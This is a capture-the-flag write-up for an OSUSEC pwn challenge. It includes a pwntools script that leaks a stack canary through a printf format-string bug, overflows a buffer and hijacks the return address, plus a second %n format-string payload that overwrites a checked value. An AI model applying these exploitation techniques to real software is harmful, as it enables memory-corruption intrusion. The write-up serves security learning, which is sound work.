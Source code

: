 #ctf 
[[Stack]], [[osusecctf 030424 - W9 - printf()]], [[tumble]]

### 03/04/24
# Inauguration
### PWN

---
## 1.

> side note, ik the number of headers is atrocious, but it formats decently in obsidian and it's too late to change conventions.

For this challenge, we are given access to a buffer that is then `printf`'d back out to the terminal. Because of the offset feature of printf, we are able to overflow into memory and hijack a stack canary. Afterwards, we need to just overflow the last input box to update the return address to dump the flag (found in ghidra), and to restore the canary. This can be done with this script:

```python
from pwn import *

flag_func_addr = p64(0x004013ab)
r = remote('chal.ctf-league.osusec.org', 1335)

# Agree to terms
r.recvuntil(b"(y/n) ")
r.sendline(b"y")

# Send our name :sunglasses:
r.recvuntil(b"name: ")

# Steal the stack canary :100:
r.sendline(b"%13$llx") # 5 registers and 8 locals (I don't actually know if this is canary or not)
output = r.recvuntil(b"date: ")
print(output)
canary = int(output.split()[1], 16)
print(f"Canary: {hex(canary)}")


# Overflow the date
r.sendline(b"A" * 40 + p64(canary) + b"A" * 8 + flag_func_addr)

r.interactive()
```

## 2.
Part 2 of the challenge is much less complicated. We just need to send an input that uses the `%n` formatter to overwrite a specific value with the flag. Trial and error (b/c counting bits is hard) led to this solution: `1%13$n _____`. Breaking this down:
1. `1` is an arbitrary character with width $w$ of 1.
2. `%n` writes the width $w$ of the preceding input into parameter $p$.
3. `$13` indicates $p$ should be offset from this data by 13 places
Combined, this overwrites $p$ to store $w$, which is checked in the code as a condition for dropping the flag.
